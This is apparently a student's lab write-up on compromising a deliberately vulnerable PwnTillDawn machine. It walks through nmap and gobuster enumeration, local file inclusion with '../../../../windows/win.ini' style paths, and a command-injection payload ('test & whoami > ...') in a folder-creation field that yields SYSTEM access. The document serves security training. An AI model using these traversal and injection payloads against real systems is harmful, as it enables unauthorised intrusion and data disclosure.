




# 🛡️ Vulnerability Analysis Lab – PwnTillDawn

## 📌 Objective

The objective of this lab is to:

* Connect to the PwnTillDawn VPN environment
* Discover active hosts in the network
* Perform service and vulnerability enumeration
* Identify and exploit vulnerabilities
* Achieve **proof of compromise (SYSTEM access)**

---

## 🖥️ Lab Environment

* Attacker Machine: Kali Linux
* VPN: OpenVPN
* Target Network: `10.150.150.0/24`

---

## 🔌 Step 1 – VPN Connection

Connected to the lab using:

```bash
sudo openvpn PwnTillDawn.ovpn
```

### ✅ Verification

* Tunnel interface created: `tun0`
* Assigned IP: `10.66.67.206`

```
Initialization Sequence Completed
```

<p align="center">
  
</p>

The VPN connection was successfully established, creating a secure tunnel to the lab network.

---

## 🌐 Step 2 – Network Interface Verification

```bash
ip a
```

<p align="center">
  
</p>

The `ip a` output confirms that the `tun0` interface is active with IP `10.66.67.206`, enabling communication with the target network.

---

## 🌐 Step 3 – Network Discovery

Performed host discovery scan:

```bash
nmap -sn 10.150.150.0/24
```

<p align="center">
  
</p>

### 📊 Results

* 256 IPs scanned
* 48 hosts discovered

Selected target:

```
10.150.150.11
```

The scan identified multiple active hosts. The target machine was selected based on responsiveness.

---

## 🔍 Step 4 – Port & Service Enumeration

```bash
nmap -sC -sV 10.150.150.11
```

### 📊 Open Ports & Services

| Port | Service | Version                |
| ---- | ------- | ---------------------- |
| 21   | FTP     | Xlight FTP 3.9         |
| 80   | HTTP    | Apache 2.4.46 (Win64)  |
| 135  | MSRPC   | Windows RPC            |
| 139  | NetBIOS | Windows                |
| 443  | HTTPS   | Apache                 |
| 445  | SMB     | Windows Server 2008 R2 |
| 1433 | MSSQL   | SQL Server 2012        |
| 3306 | MySQL   | MariaDB                |
| 3389 | RDP     | Windows                |

### 🔎 Key Observations

* Target OS: **Windows Server 2008 R2**
* Multiple exposed services → large attack surface
* Database services available (MSSQL & MySQL)
* Web server running PHP application

---

## 🌐 Step 5 – Web Enumeration

Accessed web application:

```
http://10.150.150.11
```

Application identified:

> **PwnDrive – Your Personal Online Storage**

### 🔹 Directory Enumeration

```bash
gobuster dir -u http://10.150.150.11 -w /usr/share/wordlists/dirb/common.txt
```

### 📂 Discovered Endpoints

* `/admin`
* `/upload`
* `/myfiles.php`
* `/download.php`
* `/components`
* `/inc`
* `/utils`

---

## 🚨 Step 6 – Vulnerability Discovery

### 🔴 1. Broken Access Control

* `/admin` accessible without authentication
* Able to create users without login

👉 Critical misconfiguration

---

### 🔴 2. File Upload Vulnerability

* Accessed `/myfiles.php`
* Upload functionality available

Files stored in:

```
/upload/11/
```

<p align="center">
  
</p>

This confirms that file upload is not properly secured and can be abused.

---

### 🔴 3. Local File Inclusion (LFI)

Vulnerable endpoint:

```
download.php?mode=view_file_content&filename=
```

Exploit:

```
../../../../windows/win.ini
```

✔ Successfully accessed system file

---

### 🔴 4. Source Code Disclosure

```
../../../../xampp/htdocs/config.php
```

### 🔥 Critical Finding

```php
define('CMD_INJ_ON_FOLDER_CREATE', true);
```

👉 Reveals presence of command injection vulnerability

---

## 💥 Step 7 – Exploitation (Command Injection)

Payload used:

```
test & whoami > C:\xampp\htdocs\upload\11\result.txt
```

### 📌 Explanation

* `test` → valid input
* `&` → command separator
* `whoami` → executed command
* Output saved to web directory

---

## 🏆 Step 8 – Proof of Compromise

Accessed:

```
http://10.150.150.11/upload/11/result.txt
```

<p align="center">
  
</p>

### ✅ Output

```
nt authority\system
```

This confirms successful command execution with SYSTEM privileges.

---

## 🎯 Final Result

✔ Remote Command Execution (RCE)
✔ SYSTEM-level access obtained
✔ Full system compromise achieved

---

## 🔐 Vulnerabilities Identified

| Vulnerability              | Severity |
| -------------------------- | -------- |
| Broken Access Control      | High     |
| Local File Inclusion (LFI) | High     |
| Command Injection          | Critical |
| Insecure File Upload       | High     |

---

## 🧠 Lessons Learned

* Misconfigured access control exposes admin functionality
* LFI can lead to sensitive file disclosure
* Source code analysis reveals hidden vulnerabilities
* Command injection leads to full system compromise
* Input validation is critical for web security

---

## 📌 Status

🟢 **Lab Completed Successfully**
🏆 **Proof of Compromise Achieved (SYSTEM Access)**

---

## 🔗 Attack Flow

```
Broken Access Control → File Upload → LFI → Source Code Disclosure → Command Injection → SYSTEM Access
```

---


